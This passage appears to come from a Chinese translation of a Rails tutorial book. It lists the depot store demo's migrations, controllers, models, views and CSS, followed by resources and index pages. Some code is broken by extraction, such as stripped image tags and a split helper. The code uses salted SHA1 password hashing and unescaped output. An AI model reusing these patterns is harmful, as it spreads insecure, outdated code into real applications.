        Pragmatic programmers use feedback to drive their development and personal processes. The most valuable feedback you can get while coding comes from unit testing.
      </p>
      <p>
        Without good tests in place, coding can become a frustrating game of "whack-a-mole." That's the carnival game where the player strikes at a mechanical mole; it retreats and another mole pops up on the opposite side of the field. The moles pop up and down so fast that you end up flailing your mallet helplessly as the moles continue to pop up where you least expect them.
      </p>},
      :image_url => '/images/utc.jpg',
      :price => 2775)
  end

  def self.down
    Product.delete_all
  end
end
```

下载 `depot_r/db/migrate/004_add_sessions.rb`

```ruby
class AddSessions < ActiveRecord::Migration
  def self.up
    create_table :sessions do |t|
      t.column :session_id, :string
      t.column :data, :text
      t.column :updated_at, :datetime
    end

    add_index :sessions, :session_id
  end

  def self.down
    drop_table :sessions
  end
end
```

下载 `depot_r/db/migrate/005_create_orders.rb`

```ruby
class CreateOrders < ActiveRecord::Migration
  def self.up
    create_table :orders do |t|
      t.column :name, :string
      t.column :address, :text
      t.column :email, :string
      t.column :pay_type, :string, :limit => 10
    end
  end

  def self.down
    drop_table :orders
  end
end
```

下载 `depot_r/db/migrate/006_create_line_items.rb`

```ruby
class CreateLineItems < ActiveRecord::Migration
  def self.up
    create_table :line_items do |t|
      t.column :product_id,  :integer, :null => false
      t.column :order_id,    :integer, :null => false
      t.column :quantity,    :integer, :null => false
      t.column :total_price, :integer, :null => false
    end

    execute "alter table line_items
             add constraint fk_line_item_products
             foreign key  (product_id) references products(id)"

    execute "alter table line_items
             add constraint fk_line_item_orders
             foreign key  (order_id) references orders(id)"
  end

  def self.down
    drop_table :line_items
  end
end
```

下载 `depot_r/db/migrate/007_create_users.rb`


```ruby
class CreateUsers < ActiveRecord::Migration
  def self.up
    create_table :users do |t|
      t.column :name,           :string
      t.column :hashed_password, :string
      t.column :salt,           :string
    end
  end

  def self.down
    drop_table :users
  end
end
```

### 控制器

下载`depot_r/app/controllers/application.rb`

```ruby
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "请登录"
      redirect_to(:controller => "login", :action => "login")
    end
  end

end
```

下载`depot_r/app/controllers/admin_controller.rb`

```ruby
class AdminController < ApplicationController

  before_filter :authorize

  # ....

  def index
    list
    render :action => 'list'
  end

  def list
    @product_pages, @products = paginate :products, :per_page => 10
  end

  def show
    @product = Product.find(params[:id])
  end

  def new
    @product = Product.new
  end

  def create
    @product = Product.new(params[:product])
    if @product.save
      flash[:notice] = '产品创建成功。'
      redirect_to :action => 'list'
    else
      render :action => 'new'
    end
  end

  def edit
    @product = Product.find(params[:id])
  end

  def update
    @product = Product.find(params[:id])
    if @product.update_attributes(params[:product])
      flash[:notice] = '产品更新成功。'
      redirect_to :action => 'show', :id => @product
    else
      render :action => 'edit'
    end
  end

  def destroy
    Product.find(params[:id]).destroy
    redirect_to :action => 'list'
  end
end
```

```ruby
class InfoController < ApplicationController
  def who_bought
    @product = Product.find(params[:id])
    @orders  = @product.orders
    respond_to do |accepts|
      accepts.html
      accepts.xml
    end
  end
end
```

```ruby
class LoginController < ApplicationController
  before_filter :authorize, :except => :login
  # . .

  layout "admin"

  def index
    @total_orders = Order.count
  end

  # 仅显示表单并等待用户
  # 输入姓名和密码
  def login
    session[:user_id] = nil
    if request.post?
      user = User.authenticate(params[:name], params[:password])
      if user
        session[:user_id] = user.id
        redirect_to(:action => "index")
      else
        flash[:notice] = "无效的用户名/密码组合"
      end
    end
  end

  def add_user
    @user = User.new(params[:user])
    if request.post? and @user.save
      flash[:notice] = "用户 #{@user.name} 已创建"
      @user = User.new
    end
  end

  # . . .

  def delete_user
    id = params[:id]
    if id && user = User.find(id)
      begin
        user.safe_delete
        flash[:notice] = "用户 #{user.name} 已删除"
      rescue Exception => e
        flash[:notice] = e.message
      end
    end
    redirect_to(:action => :list_users)
  end

  def list_users
    @all_users = User.find(:all)
  end

  def logout
    session[:user_id] = nil
    flash[:notice] = "已登出"
    redirect_to(:action => "login")
  end
end
```

下载`depot_r/app/controllers/store_controller.rb`

```ruby
class StoreController < ApplicationController
  before_filter :find_cart, :except => :empty_cart

  def index
    @products = Product.find_products_for_sale
  end

  def add_to_cart
    begin
      @product = Product.find(params[:id])
    rescue
      logger.error("尝试访问无效产品 #{params[:id]}")
      redirect_to_index("无效产品")
    else
      @current_item = @cart.add_product(@product)
      redirect_to_index unless request.xhr?
    end
  end

  def empty_cart
    session[:cart] = nil
    redirect_to_index
  end

  def checkout
    if @cart.items.empty?
      redirect_to_index("您的购物车是空的")
    else
      @order = Order.new
    end
  end

  def save_order
    @order = Order.new(params[:order])
    @order.add_line_items_from_cart(@cart)
    if @order.save
      session[:cart] = nil
      redirect_to_index("感谢您的订单")
    else
      render :action => :checkout
    end
  end

  private

  def redirect_to_index(msg = nil)
    flash[:notice] = msg if msg
    redirect_to :action => :index
  end

  def find_cart
    @cart = (session[:cart] ||= Cart.new)
  end
end
```

### 模型

下载`depot_r/app/models/cart.rb`

```ruby
class Cart

  include Reloadable

  attr_reader :items

  def initialize
    @items = []
  end

  def add_product(product)
    current_item = @items.find {|item| item.product == product}
    if current_item
      current_item.increment_quantity
    else
      current_item = CartItem.new(product)
      @items << current_item
    end
    current_item
  end

  def total_items
    @items.inject(0) {|sum, item| sum + item.quantity}
  end

  def total_price
    @items.inject(0) {|sum, item| sum + item.price }
  end
end
```

下载`depot_r/app/models/cart_item.rb`

```ruby
class CartItem

  include Reloadable

  attr_reader :product, :quantity

  def initialize(product)
    @product = product
    @quantity = 1
  end

  def increment_quantity
    @quantity += 1
  end

  def title
    @product.title
  end

  def price
    @product.price * @quantity
  end
end
```

下载`depot_r/app/models/line_item.rb`

```ruby
class LineItem < ActiveRecord::Base

  belongs_to :order
  belongs_to :product

  def self.from_cart_item(cart_item)
    li = self.new
    li.product     = cart_item.product
    li.quantity     = cart_item.quantity
    li.total_price = cart_item.price
    li
  end

end
```

下载`depot_r/app/models/order.rb`

```ruby
class Order < ActiveRecord::Base

  has_many :line_items

  PAYMENT_TYPES = [
    #  显示内容              存储在数据库中的值
    [ "支票",          "check" ],
    [ "信用卡",        "cc"    ],
    [ "采购订单", "po"    ]
  ]

  # ...

  validates_presence_of :name, :address, :email, :pay_type
  validates_inclusion_of :pay_type, :in => PAYMENT_TYPES.map {|disp, value| value}

  # ...

  def add_line_items_from_cart(cart)
    cart.items.each do |item|
      li = LineItem.from_cart_item(item)
      line_items << li
    end
  end
end
```

```ruby
class Product < ActiveRecord::Base
  has_many :orders, :through => :line_items
  has_many :line_items

  def self.find_products_for_sale
    find(:all, :order => "title")
  end

  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price, :only_integer => true
  validates_uniqueness_of :title
  validates_format_of :image_url,
    :with => %r{\.(gif|jpg|png)$}i,
    :message => "必须是GIF、JPG或PNG图片的URL"

  protected
    def validate
      errors.add(:price, "应该是正数") if price.nil? || price <= 0
    end
end
```

```ruby
require 'digest/sha1'

class User < ActiveRecord::Base
  validates_presence_of :name,
    :password,
    :password_confirmation

  validates_uniqueness_of :name

  validates_length_of :password,
    :minimum => 5,
    :message => "长度应至少为5个字符"

  attr_accessor :password_confirmation
  validates_confirmation_of :password

  # ...

  def self.authenticate(name, password)
```

### 模型

```ruby
user = self.find_by_name(name)
if user
  expected_password = encrypted_password(password, user.salt)
  if user.hashed_password != expected_password
    user = nil
  end
end
user
end

### 'password' is a virtual attribute
def password
  @password
end

def password=(pwd)
  @password = pwd
  create_new_salt
  self.hashed_password = User.encrypted_password(self.password, self.salt)
end

def safe_delete
  transaction do
    destroy
    if User.count.zero?
      raise "Can't delete last user"
    end
  end
end

private

def create_new_salt
  self.salt = self.object_id.to_s + rand.to_s
end

def self.encrypted_password(password, salt)
  string_to_hash = password + "wibble" + salt
  Digest::SHA1.hexdigest(string_to_hash)
end
end
```

### 视图

#### 布局

下载`depot_r/app/views/layouts/admin.rhtml`


```html
<html>
<head>
  <title>Administer the Bookstore</title>
  <%= stylesheet_link_tag "scaffold", "depot", :media => "all" %>
</head>
<body id="admin">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <p>
        <%= link_to "Products", :controller => 'admin', :action => 'list' %>
      </p>
      <p>
        <%= link_to "List users", :controller => 'login', :action => 'list_users' %>
        <br/>
        <%= link_to "Add user", :controller => 'login', :action => 'add_user' %>
      </p>
      <p>
        <%= link_to "Logout", :controller => 'login', :action => 'logout' %>
      </p>
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
      <%= @content_for_layout %>
    </div>
  </div>
</body>
</html>
```

下载`depot_r/app/views/layouts/store.rhtml`

```html
<html>
<head>
  <title>Pragprog Books Online Store</title>
  <%= stylesheet_link_tag "depot", :media => "all" %>
  <%= javascript_include_tag :defaults %>
</head>
<body id="store">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <%= hidden_div_if(@cart.items.empty?, :id => "cart") %>
        <%= render(:partial => "cart", :object => @cart) %>
      </div>
      <a href="http://www....">Home</a><br />
      <a href="http://www..../faq">Questions</a><br />
      <a href="http://www..../news">News</a><br />
      <a href="http://www..../contact">Contact</a><br />
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
      <%= @content_for_layout %>
    </div>
  </div>
</body>
</html>
```

### 管理视图

我们不展示未修改的脚手架模板源码。

```erb
<%= error_messages_for 'product' %>

<!--[form:product]-->
<p><label for="product_title">Title</label><br/>
<%= text_field 'product', 'title' %></p>

<p><label for="product_description">Description</label><br/>
<%= text_area 'product', 'description' %></p>

<p><label for="product_image_url">Image url</label><br/>
<%= text_field 'product', 'image_url' %></p>

<p><label for="product_price">Price</label><br/>
<%= text_field 'product', 'price' %></p>
<!--[eoform:product]-->
```

```erb
<div id="product-list">
  <h1>Product Listing</h1>

  <table cellpadding="5" cellspacing="0">
  <% for product in @products %>
    <tr valign="top" class="<%= cycle('list-line-odd', 'list-line-even') %>">

      <td>
        "/>
      </td>

      <td width="60%">
        <span class="list-title"><%= h(product.title) %></span><br />
        <%= h(truncate(product.description, 80)) %>
      </td>

      <td class="list-actions">
        <%= link_to 'Show', :action => 'show', :id => product %><br/>
        <%= link_to 'Edit', :action => 'edit', :id => product %><br/>
        <%= link_to 'Destroy', { :action => 'destroy', :id => product },
                      :confirm => "Are you sure?",
                      :post => true %>
      </td>
    </tr>
    <% end %>
  </table>
</div>

<% if @product_pages.current.previous
    link_to("Previous page", { :page => @product_pages.current.previous })
   end
%>

<% if @product_pages.current.next
    link_to("Next page", { :page => @product_pages.current.next })
   end
%>

<br />

<%= link_to 'New product', :action => 'new' %>
```

### 登录视图

```erb
<div id="depot-form">
  <%= error_messages_for 'user' %>

  <fieldset>
    <legend>Enter User Details</legend>

    <% form_for :user do |form| %>
      <p>
        <label for="user_name">Name:</label>
        <%= form.text_field :name, :size => 40 %>
      </p>

      <p>
        <label for="user_password">Password:</label>
        <%= form.password_field :password, :size => 40 %>
      </p>

      <p>
        <label for="user_password_confirmation">Confirm:</label>
        <%= form.password_field :password_confirmation, :size => 40 %>
      </p>

      <%= submit_tag "Add User", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

下载`depot_r/app/views/login/index.rhtml`

```erb
<h1>Welcome</h1>

It's <%= Time.now %>. We have <%= pluralize(@total_orders, "order") %>.
```

下载`depot_r/app/views/login/list_users.rhtml`

```erb
<h1>Administrators</h1>
<ul>
<% for user in @all_users %>
<li><%= link_to "[X]", :controller => 'login', :action => 'delete_user', :id => user %> <%= user.name %></li>
<% end %>
</ul>
```

下载`depot_r/app/views/login/login.rhtml`

```erb
<div class="depot-form">
  <fieldset>
    <legend>Please Log In</legend>
    <%= start_form_tag %>
    <p>
      <label for="name">Name:</label>
      <%= text_field_tag :name, params[:name] %>
    </p>
    <p>
      <label for="password">Password:</label>
      <%= password_field_tag :password, params[:password] %>
    </p>
    <p>
      <%= submit_tag "Login" %>
    </p>
    <%= end_form_tag %>
  </fieldset>
</div>
```

### 商店视图

下载`depot_r/app/views/store/_cart.html`

```erb
<div class="cart-title">Your Cart</div>

<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Checkout", :action => :checkout %>
<%= button_to "Empty cart", :action => :empty_cart %>
```

下载`depot_r/app/views/store/_cart_item.html`

```erb
<% if cart_item == @current_item %>
  <tr id="current_item">
<% else %>
  <tr>
<% end %>
  <td><%= cart_item.quantity %>&times;</td>
  <td><%= h(cart_item.title) %></td>
  <td class="item-price"><%= format_price(cart_item.price) %></td>
</tr>
```

下载`depot_r/app/views/store/add_to_cart.js`

```javascript
page.select('div#notice').each { |div| div.hide }

page[:cart].replace_html :partial => 'cart', :object => @cart

page[:cart].visual_effect :blind_down if @cart.total_items == 1

page[:current_item].visual_effect :highlight,
                     :startcolor => "#88ff88",
                     :endcolor => "#114411"
```

下载`depot_r/app/views/store/checkout.html`

```erb
<div class="depot-form">
  <%= error_messages_for 'order' %>

  <fieldset>
    <legend>Please Enter Your Details</legend>

    <% form_for :order, :url => { :action => :save_order } do |form| %>
      <p>
        <label for="order_name">Name:</label>
        <%= form.text_field :name, :size => 40 %>
      </p>

      <p>
        <label for="order_address">Address:</label>
        <%= form.text_area :address, :rows => 3, :cols => 40 %>
      </p>

      <p>
        <label for="order_email">E-Mail:</label>
        <%= form.text_field :email, :size => 40 %>
      </p>

      <p>
        <label for="order_pay_type">Pay with:</label>
        <%= form.select :pay_type,
                       Order::PAYMENT_TYPES,
                       :prompt => "Select a payment method" %>
      </p>

      <%= submit_tag "Place Order", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

下载`depot_r/app/views/store/index.rhtml`

```erb
<h1>Your Pragmatic Catalog</h1>

<% for product in @products -%>
  <div class="entry">
    "/>
    <h3><%= h(product.title) %></h3>
    <%= product.description %>
    <div class="price-line">
      <span class="price"><%= format_price(product.price) %></span>
      <%= form_remote_tag :url => { :action => :add_to_cart, :id => product } %>
        <%= submit_tag "Add to Cart" %>
      <%= end_form_tag %>
    </div>
  </div>
<% end %>
```

### 辅助方法

下载`depot_r/app/helpers/store_helper.rb`

```ruby
module StoreHelper

  def hidden_div_if(condition, attributes = {})
    if condition
      attributes["style"] = "display: none"
    end
    attrs = tag_options(attributes.stringify_keys)
```

<div #{attrs}>

end

def format_price(amount)

  dollars, cents = amount.divmod(100)

  sprintf("$%d.%02d", dollars, cents)

end

### format_price 方法 ...

end
```


### CSS 文件

下载`depot_r/public/stylesheets/depot.css`。

```css
/* 全局样式 */

#notice {
  border: 2px solid red;
  padding: 1em;
  margin-bottom: 2em;
  background-color: #f0f0f0;
  font: bold smaller sans-serif;
}

/* 管理/列表样式 */

#product-list .list-title {
  color: #244;
  font-weight: bold;
  font-size: larger;
}

#product-list .list-image {
  width: 60px;
  height: 70px;
}

#product-list .list-actions {
  font-size: x-small;
  text-align: right;
  padding-left: 1em;
}

#product-list .list-line-even {
  background: #e0f8f8;
}

#product-list .list-line-odd {
  background: #f8b0f8;
}

/* 主页样式 */

#banner {
  background: #9c9;
  padding-top: 10px;
  padding-bottom: 10px;
  border-bottom: 2px solid;
  font: small-caps 40px/40px "Times New Roman", serif;
  color: #282;
  text-align: center;
}

#banner img {
  float: left;
}

#columns {
  background: #141;
}

#main {
  margin-left: 15em;
  padding-top: 4ex;
  padding-left: 2em;
  background: white;
}

#side {
  float: left;
  padding-top: 1em;
  padding-left: 1em;
  padding-bottom: 1em;
  width: 14em;
  background: #141;
}

#side a {
  color: #bfb;
  font-size: small;
}

h1 {
  font: 150% sans-serif;
  color: #226;
  border-bottom: 3px dotted #77d;
}

/* 商店目录中的条目样式 */

#store .entry {
  border-bottom: 1px dotted #77d;
}

#store .title {
  font-size: 120%;
  font-family: sans-serif;
}

#store .entry img {
  width: 75px;
  float: left;
}

#store .entry h3 {
  margin-bottom: 2px;
  color: #227;
}

#store .entry p {
  margin-top: 0px;
  margin-bottom: 0.8em;
}

#store .entry .price-line {
}

#store .entry .add-to-cart {
  position: relative;
}

#store .entry .price {
  color: #44a;
  font-weight: bold;
  margin-right: 2em;
  float: left;
}

/* 主页和侧边栏中购物车的样式 */

.cart-title {
  font: 120% bold;
}

.item-price,
.total-line {
  text-align: right;
}

.total-line .total-cell {
  font-weight: bold;
  border-top: 1px solid #595;
}

/* 侧边栏中购物车的样式 */

#cart,
#cart table {
  font-size: smaller;
  color: white;
}

#cart table {
  border-top: 1px dotted #595;
  border-bottom: 1px dotted #595;
  margin-bottom: 10px;
}

/* 订单表单样式 */

.depot-form fieldset {
  background: #efe;
}

.depot-form legend {
  color: #dfd;
  background: #141;
  font-style: sans-serif;
  padding: 0.2em 1em;
}

.depot-form label {
  width: 5em;
  float: left;
  text-align: right;
  margin-right: 0.5em;
  display: block;
}

.depot-form .submit {
  margin-left: 5.5em;
}

/* 错误框 */

.fieldWithErrors {
  padding: 2px;
  background-color: red;
  display: table;
}

#errorExplanation {
  width: 400px;
  border: 2px solid red;
  padding: 7px;
  padding-bottom: 12px;
  margin-bottom: 20px;
  background-color: #f0f0f0;
}

#errorExplanation h2 {
  text-align: left;
  font-weight: bold;
  padding: 5px 5px 5px 15px;
  font-size: 12px;
  margin: -7px;
  background-color: #c00;
  color: #fff;
}

#errorExplanation p {
  color: #333;
  margin-bottom: 0;
  padding: 5px;
}

#errorExplanation ul li {
  font-size: 12px;
  list-style: square;
}
```


# 附录 D

## 资源

### D.1 在线资源

**Ruby on Rails** . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . http://www.rubyonrails.com/
Rails 的官方网站，包含指向用户评价、文档、社区页面、下载等内容的链接。一些最好的初学者资源包括展示人们编码 Rails 应用程序的视频。

**Ruby on Rails（面向开发者）** . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . http://dev.rubyonrails.com/
面向严肃的 Rails 开发者的页面。在这里，你可以找到指向最新 Rails 源代码的指针。你还会找到 Rails Trac 系统，[^1] 其中包含（除其他外）当前错误列表、功能请求和实验性更改的列表。

### D.2 参考文献

- [Fow06] Chad Fowler. *Rails Recipes*. The Pragmatic Programmers, LLC, Raleigh, NC, and Dallas, TX, 2006.
- [HT00] Andrew Hunt and David Thomas. *The Pragmatic Programmer: From Journeyman to Master*. Addison-Wesley, Reading, MA, 2000.
- [TFH05] David Thomas, Chad Fowler, and Andrew Hunt. *Programming Ruby: The Pragmatic Programmers' Guide*. The Pragmatic Programmers, LLC, Raleigh, NC, and Dallas, TX, second edition, 2005.

[^1]: http://www.edgewall.com/trac/. Trac 是一个集成的源代码管理和项目管理系统。

# 索引

## 符号

- `!` (名为 `xxx!` 的方法), 542
- `/.../` (正则表达式), 538
- `:name` 记法, 531
- `=>` (在哈希中), 537
- `=>` (在参数列表中), 538
- `@name` (实例变量), 534
- `[ a, b, c ]` (数组字面量), 536
- `$()` 方法, 463
- `||` (Ruby OR 运算符), 542
- `||=` (条件赋值), 542
- `<%...%>`, 41, 403
    - 使用 `-%>` 抑制空行, 404
- `<%=...%>`, 40, 403
- `<<` (追加), 288, 537
- `{ a => b }` (哈希字面量), 537
- `{ code }` (代码块), 539
- 301 和 307 重定向状态, 368
- 37signals, 465

## A

- 访问器, 534
- 动作, 11
    - 自动渲染, 363
    - 缓存, 391
    - 意外暴露, 520
    - flash 数据, 382
    - 使用 `private` 隐藏, 100
    - `index`, 88
    - 方法, 360
    - 的模板, 363
    - 在 URL 中, 11, 36, 347
    - 运行前验证条件, 389
- `:action` 参数, 364
- 动作缓存, 391
- Action Controller, 18, 346-399
    - `action`, 360
    - `asset_host` 配置参数, 413
    - 自动加载, 235

专门为您准备 Leonardo Augusto Pires

# ACTION MAILER

# 574

# ACTIVE RECORD

- `redirect_to()`, 369, 370
- `render()`, 120, 363, 364, 435, 436, 447, 483
- `render_component()`, 439
- `render_component_as_string()`, 440
- `render_partial()`, 436
- `render_to_string()`, 366
- `request` 属性, 361, 401
- `response` 属性, 362, 401
- 使用请求类型保存, 157
- `send_data()`, 366
- `send_file()`, 367
- `session` 属性, 98, 362, 373, 401
- 子模块, 236
- `template_root` 配置参数, 364, 400
- 测试, 182, 194
- `url_for()`, 352, 357, 360
- `uses_component_template_root()`, 442
- `verify()`, 389
- `web_service()`, 502

## Action Mailer, 479–492

- `receive()`, 487, 489
- 接收电子邮件, 487–489
- `recipients`, 483
- 发送电子邮件, 479–486
- `sendmail`, 479, 488
- `server_settings` 配置参数, 480
- SMTP 投递, 480
- `subject`, 483
- 测试, 479, 489–492
- TMail 类, 485, 487
- 单元测试, 489
- `bcc` 和 `cc` 头, 482
- `body` 模板, 483
- 字符集, 482
- 配置, 479
- 创建电子邮件, 484
- `date` 头, 483
- `default_charset` 配置参数, 481
- 投递电子邮件, 484
- `delivery_method` 配置参数, 479
- 电子邮件
    - 接收, 487
    - 发送, 479
- `email.encoded()`, 485
- 发件人地址, 482
- 功能测试, 490
- 生成邮件程序, 481
- 头, 482
- HTML 格式电子邮件, 485
- 链接到, 412
- 混淆地址, 412
- `perform_deliveries` 配置参数, 480
- Postfix, 488
- `.procmailrc` 文件, 488
- `raise_delivery_errors` 配置参数, 481
- `read_fixture()`, 489

# Action View, 17, 400–449

- 自动加载, 235
- `base_path` 属性, 401
- `button_to()`, 114, 398, 411
- `cache()`, 443, 445
- `content_for()`, 474
- `controller` 属性, 401
- `error_message_on()`, 429
- `html_escape()`, 514
- `javascript_include_tag()`, 454
- `link_to()`, 398, 411
- `link_to_unless_current()`, 411
- 命名约定, 234
- `text_field()`, 470

# ActionController

- `redirect_to()`, 111
- `render()`, 178
- `respond_to()`, 176
- `send_data()`, 224

# Active Record, 13–17, 249–345

- `acts_as_list()`, 307
- `acts_as_tree()`, 310
- `add_to_base()`, 324
- `after_create()`, 332
- `after_destroy()`, 332
- `after_find()`, 334, 337
- `after_initialize()`, 334
- `after_save()`, 332
- `after_update()`, 332
- `after_validation()`, 332
- `after_validation_on_create()`, 332
- `after_validation_on_update()`, 332
- 聚合对象, 313
- `attr_accessible()`, 518
- `attr_protected()`, 518
- `attribute_names()`, 268
- `attribute_present?()`, 268
- 属性, 253, 339-343
- 和列, 251

类型映射, 253
- `attributes()`, 268
- `before_create()`, 332
- `before_destroy()`, 332
- `before_save()`, 332
- `before_update()`, 332
- `before_validation()`, 332
- `before_validation_on_create()`, 332
- `before_validation_on_update()`, 332
- `_before_type_cast`, 254
- `belongs_to()`, 139, 281, 282, 287, 308
- 和布尔列, 254
- 回调, 276, 331–339
- 对象, 335
- 子对象, 287
- `columns()`, 252, 340
- `columns_hash()`, 340
- `composed_of()`, 314
- 连接数据库, 259
- 构造函数, 262, 417
- `count()`, 269
- `count_by_sql()`, 269
- `create()`, 262, 518
- 从表单参数创建, 263
- 创建行, 261
- 自定义 SQL, 344
- `default_timezone` 配置参数, 334
- `delete()`, 276, 519
- `delete_all()`, 276, 519
- `destroy()`, 276, 288, 305, 519
- `destroy_all()`, 276, 519
- 动态查找器, 270
- `errors` 属性, 429
- `errors.add()`, 324
- `errors.clear()`, 324
- `errors.on()`, 324, 429
- `establish_connection()`, 259, 261
- `find()`, 89, 263, 511, 519
- 查找指定行, 264
- `find_by_sql()`, 266, 268, 341, 344
- `first()`, 309
- 外键, 277
- `has_and_belongs_to_many()`, 292
- `has_many()`, 139, 287, 290
- `has_one()`, 281, 285
- `higher_item()`, 309
- `id`, 257
- `instance()`, 339
- `last()`, 309
- 生命周期, 331
- `lock_optimistically` 配置参数, 276
- 锁定, 274
- `lower_item()`, 309
- 魔法列名, 345
- `move_higher()`, 309
- `move_lower()`, 309
- `move_to_bottom()`, 309
- `move_to_top()`, 309
- 命名约定, 233, 250
- `new_record()`, 322
- `observe()`, 339
- 观察者, 338–339
- 作为 ORM 层, 16
- 每类连接, 259
- SQL 中的占位符, 265
- `pluralize_table_names` 配置参数, 250
- 主键, 257
- `push_with_attributes()`, 294
- 原始 SQL, 343
- `read_attribute()`, 254, 342
- `record_timestamps` 配置参数, 334
- `reload()`, 271, 309
- `save()`, 261, 272, 273, 305
- `save!()`, 273
- `select_all()`, 344
- `select_one()`, 344
- `serialize()`, 256
- 会话存储, 377
- `set_primary_key()`, 258
- `set_table_name()`, 250
- 存储 Ruby 对象, 256
- `transaction()`, 301
- `update()`, 273
- 更新行, 272
- `update_all()`, 273
- `update_attribute()`, 272
- 被解释为 `false` 的值, 255
- 虚拟列, 342
- `write_attribute()`, 254
- Active Support, 241
- `blank()`, 324
- 日期和时间, 245
- 数值扩展, 245
- 字符串扩展, 243
- 时间扩展, 246
- ActiveMerchant 库（信用卡处理）, 137
- ActiveRecord

### 表现为...

### 576

### `assert_tag()` 方法

- `to_xml()`, 178
- 表现为.... 307
- `acts_as_list()` 方法, 307
    - `:scope` 参数, 308
- `acts_as_tree()` 方法, 310
    - `:order` 参数, 311
- `add_to_base()` 方法, 324
- ADO 模块, 30
- `:after` 参数, 203
- After 过滤器, 385
    - 修改响应, 386
- `after_create()` 方法, 332
- `after_destroy()` 方法, 332
- `after_filter()` 方法
    - `:except` 参数, 386
    - `:only` 参数, 386
- `after_find()` 方法, 334, 337
- `after_initialize()` 方法, 334
- `after_invocation()` 方法, 505
    - `:except` 参数, 505
    - `:only` 参数, 505
- `after_save()` 方法, 332
- `after_update()` 方法, 332
- `after_validation()` 方法, 332
- `after_validation_on_create()` 方法, 332
- `after_validation_on_update()` 方法, 332
- 聚合, 312–318
    - 属性, 313
    - 构造函数要求, 313
- 敏捷宣言, 3
- 敏捷性, 3–4
- `ago()` 方法, 245
- AJAX, 451–478
    - 异步特性, 453
    - 自动完成文本字段, 470
    - 和后退按钮, 477
    - 向后兼容性, 476, 477
    - 从浏览器调用应用程序, 455
    - 回调, 468
        - `:complete`, 468
        - `:interactive`, 468
        - `:loaded`, 468
        - `:loading`, 468
    - 和 cookie, 456
    - 设计问题, 478
    - 禁用响应中的布局, 455
    - DOM 操作
        - 元素访问, 463
    - `form_remote_tag()`, 457, 468
    - 游戏示例, 457
    - 包含 `prototype.js`, 454
    - 插入技术, 467
    - `link_to_remote()`, 455, 456, 468
    - 列表更新示例, 471
    - `observe_field()`, 460
    - 观察者, 459
    - 动态请求, 452
    - `periodically_call_remote()`, 461
    - 发送数据, 460
    - 进度指示器, 469
    - Rails 的支持, 454
    - 请求处理, 456
    - 来自服务器的响应, 469
    - 搜索示例, 460
    - 从服务器发送动态 JavaScript, 470
    - 测试, 475
    - 动态更新页面, 452
    - 无 AJAX 的视觉效果, 475
    - 视觉反馈, 464
    - `XMLHttpRequest`, 453
- `:all` 参数, 89, 265
- `:ancestor` 参数, 203
- `:anchor` 参数, 358
- Apache, 230
- API 文档, 6
- `api_method()` 方法, 496
    - `:expects` 参数, 496
    - `:returns` 参数, 496
- `app/` 目录, 223
- 应用程序
    - 文档, 179
    - 从命令行运行, 226
- `application.rb`, 163, 337, 374
- `ApplicationController` 类, 36
- Around 过滤器, 388
- Array（Ruby）, 536
- `assert_redirected_to()` 方法, 197
- `assert_response()` 方法, 196, 197
    - `:error` 参数, 201
    - `:missing` 参数, 201
    - `:redirect` 参数, 201
    - `:success` 参数, 201
- `assert_tag()` 方法
    - `:after` 参数, 203
    - `:ancestor` 参数, 203
    - `:attributes` 参数, 202
    - `:child` 参数, 202
    - `:children` 参数, 203
    - `:content` 参数, 202
    - `:count` 参数, 203
    - `:descendant` 参数, 203
    - `:greater_than` 参数, 204
    - `:less_than` 参数, 204
    - `:only` 参数, 204
    - `:parent` 参数, 202
    - `:sibling` 参数, 203
    - `:tag` 参数, 202
- `asset_host` 配置参数, 413
- `assigns` 属性, 204
- 关联
    - 表现为列表, 307
    - 表现为树, 310
    - 表之间的关联, 277
    - 缓存子行, 297
    - 计数子行, 298
    - 多对多, 279, 292
    - 一对多, 287
    - 一对一, 281
    - 单表继承, 318
- `at_beginning_of_day()` 方法, 246
- `at_beginning_of_month()` 方法, 246
- `at_beginning_of_week()` 方法, 246
- `at_beginning_of_year()` 方法, 246
- `at_midnight()` 方法, 246
- Atom（自动发现）, 413
- `attr_accessible()` 方法, 518
- `attr_protected()` 方法, 518
- `attribute_names()` 方法, 268
- `attribute_present?()` 方法, 268
- 属性
    - `assigns`（测试）, 204
    - `base_path`（Action View）, 401
    - `controller`（Action View）, 401
    - `cookies`（Action Controller）, 362, 371
    - `cookies`（测试）, 204
    - `domain`（Request）, 361
    - `env`（Request）, 361
    - `errors`（Active Record）, 429
    - `flash`（测试）, 197, 204
    - `headers`（Action Controller）, 362, 368, 371, 401
    - 列表, 269
    - `logger`（Action Controller）, 362
    - `method`（Request）, 361
    - 模型中的属性, 251
    - `params`（Action Controller）, 102, 265, 362, 401, 415
    - 在控制器和视图之间传递, 415
    - `raw_post`（Request）, 460
    - `redirect_to_url`（测试）, 205
    - `remote_ip`（Request）, 361
    - `request`（Action Controller）, 361, 401
    - `response`（Action Controller）, 362, 401
    - `session`（Action Controller）, 98, 362, 373, 401
    - `session`（测试）, 204
- `:attributes` 参数, 202
- `attributes()` 方法, 268
- 身份验证, 384
- 授权用户, 163
- 自动发现（Atom, RSS）, 413
- `auto_discovery_link_tag()` 方法, 413
- 自动完成文本字段, 470
- 自动加载, 235

## B

- 后退按钮
    - AJAX 的问题, 477
- Barron, Scott, 379
- `base_path` 属性, 401
- `:bcc` 参数, 412
- `bcc` 头（电子邮件）, 482
- `:before` 参数, 469
- Before 过滤器, 385
- `before_create()` 方法, 332
- `before_destroy()` 方法, 332
- `before_filter()` 方法, 164
